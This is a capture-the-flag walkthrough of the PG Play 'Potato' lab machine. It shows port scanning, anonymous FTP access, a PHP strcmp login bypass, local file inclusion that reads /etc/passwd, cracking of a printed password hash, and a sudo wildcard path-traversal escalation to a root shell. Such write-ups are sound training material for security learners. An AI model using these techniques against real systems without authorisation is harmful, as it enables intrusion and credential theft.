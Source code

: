# PG Play
------------------------------------
### IP: 192.168.186.101
### Name: Potato
### Difficulty: Easy
### Community Rating: Intermediate
--------------------------------------------------

Nmap:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 192.168.186.101
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-26 07:28 CDT
Nmap scan report for 192.168.186.101
Host is up (0.082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.10 seconds
```

Looking at the page on port 80 we see a site seemingly under construction with an image of a potato:

![pgplay_potato_site.png](../assets/potato_assets/pgplay_potato_site.png)

I also notice FTP running on 2112 has anonymous access enabled and I can see there are a few file in there.

Lets kick off some directory fuzzing while we check out FTP:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ feroxbuster --url http://192.168.186.101 -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php html zip txt -o 80_dirs.txt
```

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ftp 192.168.186.101 2112
Connected to 192.168.186.101.
220 ProFTPD Server (Debian) [::ffff:192.168.186.101]
Name (192.168.186.101:ryan): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.174 !
230-
230-The local time is: Fri Jul 26 12:32:45 2024
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49064|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||15673|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901      837.18 KiB/s 
226 Transfer complete
901 bytes received in 00:00 (11.59 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||62215|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      165.31 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.76 KiB/s)
```

Looking at welcome.msg:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T
```

Opening index.php.bak we find credentials to the `/dashboard.php` endpoint:

![pgplay_potato_index.png](../assets/potato_assets/pgplay_potato_index.png)

However navigating to http://192.168.186.101/dashboard.php we get a 404 error. 

Turning back to our directory fuzzing we find an `/admin` page.

![pgplay_potato_dirs.png](../assets/potato_assets/pgplay_potato_dirs.png)

Navigating here we do find a login panel:

![pgplay_potato_login.png](../assets/potato_assets/pgplay_potato_login.png)

But our discovered credentials don't work here:

![pgplay_potato_fail.png](../assets/potato_assets/pgplay_potato_fail.png)

### Exploitation/ Foothold

Going back and looking at the index.php.bak file more closely, we can see that the login panel is using `strcmp` for the POST request.

![pgplay_potato_strcmp.png](../assets/potato_assets/pgplay_potato_strcmp.png)

There is a nice writeup of this type of bypass at https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/

Essentially if we pass in `password[]=whatever` the brackets will create an empty array, setting `password` to 0 and PHP will (for some reason?) render `NULL == 0` as true. 

Lets capture a login request in Burp:

![pgplay_potato_burp.png](../assets/potato_assets/pgplay_potato_burp.png)

Nice, that worked, We can now access the dashboard:

![pgplay_potato_dashboard.png](../assets/potato_assets/pgplay_potato_dashboard.png)

Looking at the `logs` page we see we can select which log we'd like to view and it's displayed for us in browser.

![pgplay_potato_logs.png](../assets/potato_assets/pgplay_potato_logs.png)

Lets capture this in Burp and see if we are able to access anything else using the functionality.

Nice, with a little playing around we were able to access `/etc/passwd`:

![pgplay_potato_lfi1.png](../assets/potato_assets/pgplay_potato_lfi1.png)

And scrolling down in the file we find the password hash for webadmin:

```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
```

Lets try cracking this with john:

![pgplay_potato_john.png](../assets/potato_assets/pgplay_potato_john.png)

We now have webadmin's credentials: `webadmin:dragon`

And we can use these to SSH in to the target:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ssh webadmin@192.168.186.101                                       
The authenticity of host '192.168.186.101 (192.168.186.101)' can't be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.186.101' (ED25519) to the list of known hosts.
webadmin@192.168.186.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
```

We can now access the local.txt flag:

![pgplay_potato_local_flag.png](../assets/potato_assets/pgplay_potato_local_flag.png)

### Privilege Escalation

Running `sudo -l` to see what our user can run with elevated permissions we find:

```
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

Interesting. The wildcard is very dangerous here. Lets get a root shell by running:

```
webadmin@serv:/$ sudo /bin/nice /notes/../bin/bash
root@serv:/# whoami
root
root@serv:/# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the final flag:

![pgplay_root_flag.png](../assets/potato_assets/pgplay_potato_root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------



